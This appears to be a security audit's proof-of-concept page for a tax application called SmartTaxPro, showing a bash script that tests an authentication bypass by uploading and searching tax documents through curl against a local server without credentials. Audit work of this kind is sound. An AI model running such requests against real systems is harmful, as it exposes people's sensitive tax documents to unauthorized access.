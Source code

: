 # SmartTaxPro Security Audit - Proof of Concept Scripts

**Audit Date:** January 3, 2025  
**Purpose:** Demonstrate exploitability of critical and high-severity vulnerabilities  

⚠️ **DISCLAIMER:** These scripts are for authorized security testing only. Do not use against systems without explicit permission.

---

## C-001: Authentication Bypass in File Operations

### Vulnerability Description
File management endpoints lack proper authentication middleware, allowing unauthorized access to sensitive documents.

### Reproduction Steps

1. **Setup Test Environment:**
```bash
# Start the application
npm run dev

# Note: Application runs on http://localhost:5000
```

2. **Exploit Script:**
```bash
#!/bin/bash
# File: test_auth_bypass.sh
# Test file upload without authentication

BASE_URL="http://localhost:5000"
TEST_FILE="test_malicious.pdf"

# Create a test file
echo "This should not be uploadable without auth" > $TEST_FILE

# Attempt file upload without authentication
echo "Testing unauthenticated file upload..."
curl -X POST \
  $BASE_URL/api/v1/files/upload \
  -F "file=@$TEST_FILE" \
  -F "category=TAX_DOCUMENT" \
  -F "parentEntityType=TAX_FORM" \
  -F "parentEntityId=test123" \
  -v

echo -e "\n\nTesting file search without authentication..."
curl -X GET \
  "$BASE_URL/api/v1/files/search?category=TAX_DOCUMENT" \
  -v

# Clean up
rm $TEST_FILE
```
